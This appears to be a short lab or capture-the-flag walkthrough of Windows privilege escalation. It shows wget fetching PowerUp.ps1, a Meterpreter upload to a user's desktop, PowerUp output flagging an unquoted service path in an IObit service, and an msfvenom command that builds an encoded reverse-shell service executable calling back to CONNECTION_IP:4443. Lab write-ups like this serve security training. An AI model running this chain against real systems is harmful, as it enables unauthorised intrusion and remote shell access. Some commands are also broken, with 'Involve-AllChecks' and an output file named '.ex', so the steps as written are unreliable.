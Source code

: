downlaod the script file
`wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`

upload to the meterpreter
```
┌──(dd0x㉿kali)-[~]
└─$ realpath PowerUp.ps1                
/home/kali/PowerUp.ps1
```

```
meterpreter > upload /home/kali/PowerUp.ps1
[*] Uploading  : /home/kali/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /home/kali/PowerUp.ps1 -> PowerUp.ps1
[*] Completed  : /home/kali/PowerUp.ps1 -> PowerUp.ps1
meterpreter > ls
Listing: c:\users\bill\desktop
==============================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100666/rw-rw-rw-  600580  fil   2025-05-11 11:36:09 -0400  PowerUp.ps1
100666/rw-rw-rw-  282     fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70      fil   2019-09-27 08:42:38 -0400  user.txt
```

1st — **load_powershell** — Enables users to automate a variety of time-consuming administrative operations as well as discover, filter, and export information about network computers.

2nd — **powershell_shell** — To get the powershell up and running, follow these steps.

3rd — **. .\PowerUp.ps1 —** To choose the file or shell we plan to use

4th — **Involve-AllChecks —** Output any vulnerabilities that can be discovered, as well as descriptions for any abuse functionalities

```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

```

cjecl the path
```
C:\Program Files (x86)\IObit
Check          : Unquoted Service Paths
```

restart and and upload this file
`msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.ex`
